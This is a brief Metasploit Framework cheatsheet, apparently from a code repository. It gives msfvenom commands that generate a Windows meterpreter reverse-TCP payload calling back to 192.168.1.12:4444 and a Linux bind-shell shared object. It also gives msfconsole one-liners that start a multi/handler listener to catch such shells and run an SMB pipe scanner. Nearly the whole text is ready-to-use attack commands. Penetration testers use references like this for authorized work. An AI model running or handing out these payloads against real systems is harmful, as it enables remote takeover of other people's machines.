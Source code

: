 # Metasploit Framework Cheatsheet



#### Generate a payload

```bash
 msfvenom -p <payload> VAR1=value1 VAR2=value2 -f <format> > outfile
```

##### Examples

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f vbs-exe > meterpreter_reverse_tcp.txt 
```

```bash
msfvenom -p linux/shell/bind_tcp RHOST=0.0.0.0 RPORT=1337 -f elf-so > bind_shell.so
```



#### MSF Console

```bash
msfconsole -x "use exploit/multi/handler ; set PAYLOAD <payload> ; set  VAR1 value1 ; set VAR2 value2 ; exploit ; exit -y;"
```
```bash
msfconsole -x "use auxiliary/scanner/smb/pipe_auditor ; set RHOST <ip> ; exploit ; exit -y;"
```



